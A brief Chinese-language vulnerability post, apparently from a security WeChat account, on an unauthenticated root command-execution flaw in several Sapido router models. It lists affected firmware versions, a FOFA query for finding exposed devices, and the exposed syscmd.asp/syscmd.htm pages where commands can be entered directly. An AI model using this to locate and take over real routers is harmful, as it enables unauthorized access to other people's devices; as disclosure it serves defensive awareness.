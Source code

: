 #  Sapido-多款路由器-远程命令执行漏洞   
原创 骇客安全  骇客安全   2025-03-29 12:48  
  
# 漏洞描述  
  
Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令  
  
## 漏洞影响  
```
BR270n-v2.1.03
BRC76n-v2.1.03
GR297-v2.1.3
RB1732-v2.0.43
```  
  
## FOFA  
```
app="Sapido-路由器"
```  
  
## 漏洞复现  
  
固件中存在一个asp文件为 **syscmd.asp**  
 存在命令执行  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MFvUUVteatic6AibJ35SmzZ8bvToKHKdxZgiciaHJVej23kBwl55msv0275As3j4Kl2WALrVibuDjib4WQ/640?wx_fmt=png&from=appmsg "null")  
  
  
访问目标：  
  
```
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MFvUUVteatic6AibJ35SmzZ89phKY9TziaSR9uXIsKIhuibibicTIicdD3CV00TKTreu3W7EpoG27LPe1JQ/640?wx_fmt=png&from=appmsg "null")  
  
  
直接输入就可以命令执行了  
  
  
  
